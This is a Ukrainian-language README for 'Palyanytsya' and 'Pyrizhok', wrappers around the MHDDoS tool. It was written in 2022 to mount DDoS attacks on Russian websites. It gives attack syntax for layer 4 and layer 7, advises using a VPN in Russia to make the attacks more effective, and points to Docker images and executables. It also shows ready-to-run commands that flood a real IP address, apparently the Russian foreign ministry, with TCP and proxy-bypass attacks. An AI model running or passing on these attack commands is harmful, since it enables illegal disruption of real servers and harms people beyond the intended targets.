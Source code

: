 # Паляниця

![GitHub last commit](https://img.shields.io/github/last-commit/pocket-sunflower/palyanytsya)
[![Python 3.10](https://img.shields.io/badge/python-3.10-f.svg)](https://www.python.org/downloads/release/python-360/)
![](https://img.shields.io/github/license/pocket-sunflower/palyanytsya)
![](https://img.shields.io/github/workflow/status/pocket-sunflower/palyanytsya/build-workflow.yml)

[//]: # (![]&#40;https://img.shields.io/docker/pulls/pocketsunflower/pyrizhok?label=pyrizhok%20docker%20pulls&#41;)

[//]: # (![]&#40;https://img.shields.io/docker/pulls/pocketsunflower/palyanytsya?label=palyanytsya%20docker%20pulls&#41;)

Цифрова зброя проти xуйлoвської пропаганди.

Щоб негайно почати шкварити рашистські сайти – мерщій у [швидкий старт][docs-quickstart]! ⚡️

А коли ворожі сервери вже жаряться і є час почитати – ласкаво просимо вниз.

---

## Швидкі посилання

- [⚡ Швидкий старт][docs-quickstart]
- [🔥 Мотивація](#motivation)
- [🔧 Технічні деталі](#technical)
  - [📑 Параметри](#parameters)
  - [🍞 Випічка](#builds) / [детальний гайд][docs-builds-detailed]
  - [🥡 Запуск вихідного коду](#run-from-source) / [детальний гайд][docs-run-from-source-detailed]
- [🚀 Плани та колаборація](#plans-and-collaboration)

---

## <a name="motivation"></a>🔥 Мотивація

24-го лютого 2022 року Російська Федерація підступно напала на Україну. В перші дні нападу Мінцифри України оперативно організувало кібер-армію: легіон IT-фахівців та волонтерів, які доклали свої сили та вміння на протидію рашистському агресору у цифровому просторі.

Цей репозиторій – духовний спадкоємець декількох проектів, що допомагали нам тримати цифровий тиск по ворогу у перший тиждень війни. Наша ціль – зробити запуск цього коду якомога простішим для більшості людей і при тому зберегти ефективність і гнучкість опцій атаки.

Тож, вмикайте свої машини, відкривайте термінали, і вліпимо дружньою паляницею по системах окупантів!

Слава Україні! Ми разом і ми переможемо! 💙💛

---

## <a name="technical"></a>🔧 Технічні деталі 


[MHDDoS][mhddos-github] – це потужний пайтон-скрипт для виконання DDoS атак у різних режимах. Наш репозиторій надає для нього два прості врапери: 

- Пиріжок ([pyrizhok](pyrizhok.py)) – мінімалістична версія врапера, яка потребує лише **адресу цілі** для того, щоб запустити атаку. Тим паче, за бажанням можна надати інший **порт** і **протокол**. Створений для починаючих котиків 😸
- Паляниця ([palyanytsya](palyanytsya.py)) – це повний врапер для MHDDoS, який приймає **всі опції** з оригінального скрипта. Створений для досвідчених в IT котів та киць 😼


### <a name="parameters"></a>📑 Параметри

> **⚠** **ВАЖЛИВО:** Не забувайте користуватися VPN! Бажано з локацією в Росії - так ефективніше.

**Пиріжок** можна запускати без параметрів – під час запуску він сам спитає вас про те, кому і як треба вгатити.

Тим не менш, параметри можна передати наперед у такому форматі:

```bash
pyrizhok.py <target_address> <target_port> <attack_method>
```

Значення параметрів:

1. `target_address` – адреса цілі. Може бути URL або IP-адресою.
2. `target_port` – (опціонально) порт цілі.
3. `attack_method` – (опціонально, потребує вказаний порт) метод, який буде використовуватися для атаки. Список можливих  опцій можна побачити [в оригінальному доці MHDDoS][mhddos-github-layer7]. 

**Паляниця** дає доступ до всіх опцій в MHDDoS, яких немало, тому зараз рекомендуємо дивитися прямо в [оригінальну документацію][mhddos-github-launch]. Також деталі про параметри можна подивитися запустивши паляницю з параметром help: 
```bash
palyanytsya.py help
```

Мапа параметрів залежить від того, на який шар мережі ведеться атака.

- Layer 7: 
   ```bash
   palyanytsya.py <method> <url> <socks_type5.4.1> <threads> <proxylist> <rpc> <duration>

- Layer 4: 
  ```bash
  palyanytsya.py <method> <ip:port> <threads> <duration>
  ```



### <a name="builds"></a>🍞 Випічка

Паляниця та пиріжок запаковані в декілька різних форматів, аби зменшити час на налаштування і запуск до мінімуму.

> **ℹ** Детальний гайд про те, як самостійно запекти пиріжок та паляницю [можна знайти тут][docs-builds-detailed].

**PyInstaller 🐍** Standalone версії обох програм запаковані за допомогою [PyInstaller][pyinstaller]. Python-скрипти для створення білдів можна знайти у папці [build_scripts_PyInstaller](build_scripts_PyInstaller). Зауважте, що білд створюється для тієї ж платформи, на якій запущено скрипт (наприклад, щоб збілдити проект на Mac - треба запустити бідповідний білд на машині з macOS). Вихідні файли знаходяться у своїх папках:
- 💻 Білди .exe для Windows – в [executables/Windows](executables/Windows).
- 🐧 Білди для Linux – в [executables/Linux](executables/Linux).
- 🍎 Білди для Mac – в [executables/Mac (Intel)](executables/Mac%20(Intel)) та [executables/Mac (M1)](executables/Mac%20(M1)).

**Docker 🐋** Скрипти для збирання Docker-контейнерів та самі Dockerфайли знаходяться в папці [build_scripts_Docker](build_scripts_Docker). Найновіші версії обох контейнерів також доступні у репозиторії GitHub:
- **ghcr.io/pocket-sunflower/pyrizhok:latest**
- **ghcr.io/pocket-sunflower/palyanytsya:latest**

Якщо хочете створити білди самостійно – ласкаво просимо в [детальний гайд][docs-builds-detailed].



### <a name="run-from-source"></a>🥡 Запуск вихідного коду

Щоби запустити пиріжок чи паляницю з джерела на Linux:

> **ℹ️** Детальніші інструкції про те, як запустити програму з вихідного коду [можна знайти тут][docs-run-from-source-detailed].

1. Клонуємо цей репозиторій та заходимо в папку з кодом:
    ```bash
    git clone https://github.com/pocket-sunflower/palyanytsya
   cd palyanytsya 
    ```

2. Створюємо віртуальне середовище та активуємо його:
    > **⚠** Паляниця з пиріжком потребують версію Python не менше ніж [**3.10.2**](https://www.python.org/downloads/release/python-3102/).
    ```bash
    python3 -m virtualenv --python python3.10 venv
    source venv/bin/activate
    ```

3. Встановлюємо залежності:
    ```bash
    pip install -r requirements.txt
    ```

4. Запускаємо пиріжок (або паляничку) з потрібною адресою, наприклад _194.85.30.210_ ([саме так][same-tak]):
    ```bash
    python3 pyrizhok.py 194.85.30.210 443 TCP
    ```
    ```bash
    python3 palyanytsya.py bypass 194.85.30.210 5 100 socks5.txt 10000 3600
    ```

    …і те, що за адресою, відправляється вслєд за рускім корабльом.

Щоби дізнатися, я запускати пиріжок та паляницю на кожній з доступних платформ, [ласкаво просимо в детальніший гайд][docs-run-from-source-detailed].

---

## <a name="plans-and-collaboration"></a>🚀 Плани та колаборація

Найближчим часом планується:
- ✅ ~~Додати кращий логінг статусу атаки (наразі атака іде у фоновому режимі, без індикації статусу).~~
- Додати новий клієнт для автоматичного «тестування» [адрес][db1000n-targets] наданих проектом [«Death by 1000 needles»][db1000n]. Це допоможе нам бути більш скоординованими та ефективними.
- Додати автоматизацію білдів для усіх платформ через CI.
- Whatever else may come…

Якщо ви можете допомогти з будь-яким пунктом вище, або у вас є ідеї про те, як покращити існуючий код, ми будемо дуже вдячні - відкривайте [issues][repo-issues] та пропонуйте [pull requests][repo-pull-requests]. Єдина умова - чітко поясніть, що ви хотіли би змінити, щоб ніхто не витрачав часу на непорозуміння.

---

<div style="text-align: center">Бережіть себе! Все буде Україна! </div>

<div style="text-align: center">💙💛</div>

<div style="text-align: right"><span style="font-style: italic">Pocket Sunflower </span>🌻</div>



<!--- References --->
[mhddos-github]: https://github.com/MHProDev/MHDDoS
[mhddos-github-launch]: https://github.com/MHProDev/MHDDoS#launch-script
[mhddos-github-layer7]: https://github.com/MHProDev/MHDDoS#features-and-methods
[pyinstaller]: https://pyinstaller.readthedocs.io/en/stable/index.html
[db1000n]: https://github.com/Arriven/db1000n
[db1000n-targets]: https://github.com/db1000n-coordinators/LoadTestConfig/blob/main/config.json
[repo-issues]: https://github.com/pocket-sunflower/palyanytsya/issues
[repo-pull-requests]: https://github.com/pocket-sunflower/palyanytsya/pulls
[dockerhub-pyrizhok]: https://hub.docker.com/repository/docker/pocketsunflower/pyrizhok
[dockerhub-palyanytsya]: https://hub.docker.com/repository/docker/pocketsunflower/palyanytsya
[same-tak]: https://www.nslookup.io/dns-records/mid.ru
[docs-quickstart]: docs/QUICKSTART.md
[docs-builds-detailed]: docs/BUILDS.md
[docs-run-from-source-detailed]: docs/RUN_FROM_SOURCE.md

